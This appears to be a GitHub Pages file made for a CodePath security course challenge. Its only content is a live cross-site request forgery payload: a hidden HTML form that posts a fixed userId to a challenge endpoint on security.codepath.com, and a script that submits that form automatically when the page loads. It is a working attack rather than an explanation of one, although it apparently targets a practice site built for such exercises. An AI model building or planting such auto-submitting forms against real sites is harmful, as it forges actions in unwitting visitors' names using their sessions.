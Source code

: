 # JLPlummer79.github.io


<form name="csrf_form" action="https://security.codepath.com/user/csrfchallengtwo/plusplus" method="POST">
  <input type="hidden" name="userId" value="2eff24c04dc96585b7fadc8b1fd6d80081c3ffdd" />
  <input type="submit"/>
</form>

<script> document.csrf_form.submit(); </script>
